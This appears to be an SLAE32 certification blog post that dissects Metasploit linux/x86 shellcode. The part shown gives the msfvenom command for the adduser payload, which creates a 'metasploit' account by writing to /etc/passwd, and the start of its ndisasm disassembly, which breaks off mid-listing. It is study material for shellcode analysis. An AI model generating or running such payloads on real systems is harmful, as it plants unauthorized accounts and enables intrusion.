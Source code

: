 ﻿---
layout: post
title:  "SLAE32"
subtitle: "|  Assignment 5 - Msfpayload"
date:   2022-10-05 08:45:58 +0200
category: SLAE32
subject: Assignment 5 - Msfpayload
excerpt_separator: 
github-link: https://github.com/jeremycatelain/SLAE32-Assignments/tree/main/assignment5
---

###  <span style="color:#2d8fb3;"> Description of the assignment </span>

- Take up at least 3 shellcode samples created using Msfpayload for linux/x86
- Use GDB/NDisasm/Libemu to dissect the functionality of the shellcode
- Present your analysis

We are going to analyse together the following shellcodes:
- linux/x86/adduser
- linux/x86/exec
- linux/x86/chmod
 


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: PA-26457

###  <span style="color:#2d8fb3;"> Part 1 - linux/x86/adduser shellcode </span>

####  <span style="color:#01416C;"> Principle </span>

This first shellcode creates a user named 'metasploit' with the password 'metasploit'. 

    metasploit:metasploit

To analyse the shellcode we use ndisasm to display the instructions as follows :

    msfvenom -p linux/x86/adduser R | ndisasm -u -


**Code result :** 

    00000000  31C9              xor ecx,ecx
    00000002  89CB              mov ebx,ecx
    00000004  6A46              push byte +0x46
    00000006  58                pop eax
    00000007  CD80              int 0x80 // setreuid
    00000009  6A05              push byte +0x5
    0000000B  58                pop eax
    0000000C  31C9              xor ecx,ecx
    0000000E  51                push ecx
    0000000F  6873737764        push dword 0x64777373
    00000014  682F2F7061        push dword 0x61702f2f
    00000019  682F657463        push dword 0x6374652f
    0000001E  89E3              mov ebx,esp
    00000020  41                inc ecx
    00000021  B504              mov ch,0x4
    00000023  CD80              int 0x80 // Open
    00000025  93                xchg eax,ebx
    00000026  E828000000        call 0x53
    0000002B  6D                insd
    0000002C  657461            gs jz 0x90
    0000002F  7370              jnc 0xa1